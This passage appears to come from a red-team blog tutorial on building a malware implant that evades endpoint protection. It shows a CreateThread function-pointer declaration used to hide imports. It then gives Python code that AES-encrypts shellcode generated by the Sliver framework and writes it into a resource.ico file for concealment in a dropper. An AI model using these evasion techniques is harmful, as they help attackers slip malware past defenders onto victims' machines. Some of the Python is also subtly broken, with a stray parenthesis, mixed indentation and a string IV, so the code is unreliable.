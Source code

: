 We can use this in our implant to avoid having to import at run time by inserting this line before the function call:

```
HANDLE (WINAPI * pCreateThread)(LPSECURITY_ATTRIBUTES lpThreadAttributes,SIZE_T dwStackSize,LPTHREAD_START_ROUTINE  lpStartAddress,__drv_aliasesMem LPVOID lpParameter,DWORD dwCreationFlags,LPDWORD lpThreadId );
```

What we've done here is creating a WINAPI pointer to the function, and it can be done for a lot of our imports.

### Encrypting our payload

The fastest way to be caught is to use a payload easily identifiable to the EPP. The easiest way to not be caught, then, is to encrypt our payload until run time. For this section, I updated the Python script from Sektor7's red team operator course to be Python3 compatible. This way, we can now feed our outputted shellcode file from Sliver into our encrypt function, get a key and encrypted payload, and then hide that further in our dropper. I don't want to share too much of reenz0h's work, so I'll keep it simple by supplying only pieces I've found also on StackOverflow from a decade ago.

The padding function is as follows:
```
def pad(s):
    length = 16 - (len(s) % 16)
    s += bytes([length])*length
    return s
```

And the encrypting function is as follows:
```
def aesenc(plaintext, key):
  iv = 16*'\x00'
  iv = bytearray(iv, 'utf-8')
	k = hashlib.sha256(key).digest()
	plaintext = pad(plaintext))
	cipher = AES.new(k, AES.MODE_CBC, iv)

	return cipher.encrypt(bytes(plaintext))
```

We generate a key through using the ```urandom``` import and call the aesenc function through this:
```
plaintext = open(sys.argv[1], "rb").read()
ciphertext = aesenc(plaintext, KEY)
```

Then to get the output looking nice we do some string manipulation and write it to the resource.ico file:
```
print('AESkey[] = { 0x' + ', 0x'.join(hex(x)[2:] for x in KEY) + ' };')
imm_by = bytes(ciphertext)

with open('resource.ico', 'wb') as file:
  file.write(imm_by)
```
